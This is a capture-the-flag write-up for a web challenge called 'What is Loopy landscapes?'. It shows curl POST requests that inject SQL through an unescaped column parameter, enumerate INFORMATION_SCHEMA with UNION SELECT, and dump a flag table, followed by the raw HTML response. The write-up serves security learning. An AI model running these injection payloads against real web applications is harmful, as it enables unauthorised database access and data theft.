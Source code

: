 What is Loopy landscapes?
=========================

* Flag: **unroll_those_loops**

![loopy](data/loopy.png "What is Loopy landscapes? challenge introduction")

We are presented with a simple database-backed webpage that allows us to query
for information on roller coasters based on their name, park, and country.

It seems likely that there is some sort of data sanitization issue to be
exploited.

If we search on a name, park, or country value of `*`, we get no matches,
suggesting that the value is being escaped before being used in a SQL query.

If we set the value for the column to be:

    country like '%U%' or country

using this POST requeest:

    curl --data "value=C&column=country like '%U%' or country" http://54.69.118.120:8000/index.php

and then search for `C`, we get entries for BOTH the United States and Canada
(ie the column is being executed as SQL).

This suggests that:

1. The query being executed is of the form:

    SELECT name, park, country, height FROM roller_coaster WHERE $column LIKE '%$value%';

2. The $column value isn't being escaped properly.

There is likely either a flag table or a flag column somewhere in this
roller coaster database for us to find. We can use the vulnerable `$column` to
probe `INFORMATION_SCHEMA` for table information:

    curl --data "value=C&column=country like '%U%' UNION SELECT table_name,column_name,3,4 from INFORMATION_SCHEMA.columns#" http://54.69.118.120:8000/index.php

    curl --data "value=C&column=country like '%U%' UNION SELECT table_name,column_name,3,4 from INFORMATION_SCHEMA.columns WHERE table_name like '%flag%'#" http://54.69.118.120:8000/index.php

(The `#` is a comment ending the SQL statement)

Now we know that there's a `flag` table with a column `hash`. If we look up all values for `hash`:

    curl --data "value=&column=country like '' UNION select hash,2,3,4 from flag#" http://54.69.118.120:8000/index.php

We get back a POST response containing our flag:

```
<html>
    <head>
        <title>Archie's Roller Coaster Page</title>
        <link href='http://fonts.googleapis.com/css?family=EB+Garamond' rel='stylesheet' type='text/css'>
        <link rel="stylesheet" type="text/css" href="style.css"/>
    </head>
    <body>
        <div id="header">Archie's Coasters</div>
        <div id="search" class="whitebox">
            <form name="search" action="index.php" method="post">
                Search for
                <input name="value" type="text" placeholder="Search value"/>
                in
                <select name="column">
                    <option value="name">name</option>
                    <option value="park">park</option>
                    <option value="country">country</option>
                </select>
                <input type="submit" value="Go"/>
            </form>
        </div>
        <div id="content" class="whitebox">
            <table>
                <tr>
                    <th>
                        Name
                    </th>
                    <th>
                        Park
                    </th>
                    <th>
                        Country
                    </th>
                    <th>
                        Height
                    </th>

                </tr><tr><td>flag{unroll_those_loops}</td><td>2</td><td>3</td><td>4 m</td></tr></table>
        </div>
    </body>
</html>
```

The flag is: **unroll_those_loops**

[« Return to challenge board](../README.md "Return to challenge board")
